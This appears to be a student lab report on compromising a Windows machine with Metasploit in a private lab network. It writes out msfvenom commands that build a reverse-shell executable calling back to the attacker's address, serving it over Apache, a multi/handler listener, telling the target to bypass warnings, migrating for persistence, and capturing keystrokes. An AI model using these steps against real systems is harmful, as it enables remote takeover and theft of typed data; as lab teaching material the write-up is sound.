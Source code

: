 # Compromising-windows-using-Metasploit

NAME: GRACIA RAVI(212222040047)
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig
## Output:
![Screenshot 2024-10-28 155406](https://github.com/user-attachments/assets/7fb3d68e-8f57-488f-bc2c-92bbda026a8a)

Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## Output:
![Screenshot 2024-10-28 155421](https://github.com/user-attachments/assets/e8fdbb95-3174-4fde-9038-7da81a66bb0a)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-10-28 155437](https://github.com/user-attachments/assets/d87dab41-b6b0-4647-9c2c-768feb45341c)

Start apache server sudo systemctl apache2 start

![Screenshot 2024-10-28 155451](https://github.com/user-attachments/assets/e8c70316-97bf-4ea0-816b-1ac7e353dd0e)

Check the status of apache2 sudo apache2 status
![Screenshot 2024-10-28 155537](https://github.com/user-attachments/assets/89f10144-5cf5-4b0e-b5e5-f81d538535b0)

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## Output
![374867868-108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7](https://github.com/user-attachments/assets/c4b090c0-89b8-4b83-8999-b3010fbf9949)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![374867924-2d3c9bbd-30bf-4db7-8957-4760d26234a1](https://github.com/user-attachments/assets/fd6cf4ad-9f48-4976-92a6-39e92e09cad9)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit 
![374867950-3b6d33dd-159f-4798-926d-22dece021d73](https://github.com/user-attachments/assets/26cd1d8c-79c1-45c8-b70c-99a77fa8e219)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![374868025-70c71c8a-0ed9-42b7-a002-f07f1d50b459](https://github.com/user-attachments/assets/16edb9fa-6b4f-4f59-8255-30773597cfba)

keyscan_dump Shows the keystrokes captured so far
![374868055-1b9359f7-97a1-4452-9cd8-4abba68f2246](https://github.com/user-attachments/assets/1c6940f3-48f4-4140-97bd-ded02c042040)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

